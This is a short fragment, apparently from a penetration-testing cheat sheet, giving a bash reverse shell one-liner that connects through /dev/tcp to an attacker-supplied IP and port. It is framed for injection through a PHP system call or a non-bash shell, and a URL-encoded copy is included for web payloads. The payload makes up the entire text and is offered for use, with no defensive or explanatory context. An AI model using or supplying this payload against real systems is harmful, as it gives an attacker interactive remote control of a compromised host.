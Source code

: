 
In case of php system call or other context (executing in non-bash shell):
```bash
bash -c "bash -i >& /dev/tcp/$LOCAL_IP/$PORT 0>&1"
```

URL encoded payload:
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$LOCAL_IP%2F$PORT%200%3E%261%22
```